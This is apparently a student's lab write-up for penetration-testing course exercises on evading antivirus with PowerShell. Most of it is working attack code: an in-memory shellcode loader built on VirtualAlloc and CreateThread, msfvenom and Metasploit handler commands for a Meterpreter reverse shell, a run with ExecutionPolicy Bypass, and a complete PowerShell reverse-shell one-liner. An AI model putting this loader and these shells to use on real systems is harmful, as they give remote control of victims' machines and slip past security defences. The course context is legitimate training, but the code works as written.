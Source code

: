 ### 17.3.3.2 Exercises
#### 1. Review the code from the PowerShell script and ensure that you have a basic understanding of how it works.

```powershell
# Import functions needed for exploit from DLL's
$code = '
# This function allows you to allocate memory
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
# This function allows you to create an execution thread
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
# This function allows you to write arbitrary data to memory
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc =
Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

# Insert shellcode here, formatted for Powershell
[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

# Allocate memory block
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

# Write shellcode to allocated memory block
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

# Execute in-memory shellcode in separate thread
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

#### 2. Get a meterpreter shell back to your Kali Linux machine using PowerShell.

- Generated shellcode for Meterpreter Reverse Shell

  ```bash
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f powershell
  ```

- Inserted shellcode into script above at the `[Byte[]]$sc` variable and transferred the script to Windows
  ![image-20200718211924982](.17.3.3.2.assets/image-20200718211924982.png)

- Started Meterpreter handler on Kali
  
  ```bash
  sfconsole -x "use exploit/multi/handler; set RHOST 192.168.216.10; set PAYLOAD w
  indows/meterpreter/reverse_tcp; set LHOST 192.168.119.216; set LPORT 8000"
  ```
  
  ![image-20200718212115172](.17.3.3.2.assets/image-20200718212115172.png)
  
- Ran script on Windows, bypassing ExecutionPolicy
  
  ```powershell
  powershell -ExecutionPolicy Bypass -File .\meminjc.ps1
  ```
  
- Sweet Meterpreter prompt
  ![image-20200718212140704](.17.3.3.2.assets/image-20200718212140704.png)


#### 3. Attempt to get a reverse shell using a PowerShell one-liner rather than a script.

- Started a netcat listener on Kali

- Used this one-liner from an earlier exercise:

  ```powershell
  powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.216',8000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
  ```

- Reverse shell obtained:
  ![image-20200718212340355](.17.3.3.2.assets/image-20200718212340355.png)

